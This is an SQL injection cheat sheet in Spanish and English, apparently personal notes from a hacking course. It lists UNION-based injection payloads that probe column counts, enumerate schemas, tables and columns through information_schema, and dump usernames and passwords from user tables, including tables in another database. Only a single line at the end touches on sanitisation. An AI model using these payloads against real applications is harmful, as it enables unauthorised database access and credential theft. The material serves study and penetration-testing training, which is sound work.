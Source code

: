 # Cheat Sheet


# SQLI ( Based Error )

#### ORDER BY

```python
Examples:

' order by 100-- -
' order by 1-- -
```

#### UNION SELECT

```python
Examples:

' union select 1-- -
' union select 1,2-- -
' union select NULL,NULL,NULL-- -
```

#### Obtener nombre de la base de datos actualmente en uso con UNION SELECT

```python
Examples:

' union select database()-- -
' union select database(),2-- -
' union select database(),NULL,NULL-- -
' union select NULL,database(),NULL-- -
```

#### obtener nombres de esquemas (databases) de la base de datos utilizando la cláusula `UNION` y la consulta al esquema `information_schema`

```python
Examples:

' union select schema_name from information_schema.schemata-- -
' union select group_concat(schema_name) from information_schema.schemata-- -
' union select group_concat(schema_name) from information_schema.schemata limit 1,1-- -
' union select group_concat(schema_name) from information_schema.schemata limit 2,1-- -
```

#### Enumerar Tablas

```python
Example:

' union select group_concat(table_name) from information_schema.tables where table_schema='(database name)'
```

#### Enumerar Columnas

```python
Examples:

' union select group_concat(column_name) from information_schema.columns where table_schema='(database name)' and table_name='(table name)'-- -

#Alternativa con limit
' union select column_name from information_schema.columns where table_schema='(datbase name)' and table_name='(table name)' limit 1,0-- -
```

#### Dumpear Datos

```python
Examples:

' union select group_concat(username) from users-- -

' union select group_concat(username,password) from users-- -

' union select group_concat(username,':',password) from users-- -

# Siquieres agregar dos puntos para separar el username y password la mejor manera es la siguiente haciendo uso de HEX:
' union select group_concat(username,0x3a,password) from users-- -

# Si quieres dumpear datos de otra base de datos que no es la que esta en uso:
# Suponiendo que 'hack4u' es el nombre de otra base de datos
' union select group_concat(username) from hack4u.users-- -
```

# Sanitizacion

```python
mysql_real_escape_string()
```

##### Example:

![[sanitización.png]]


# 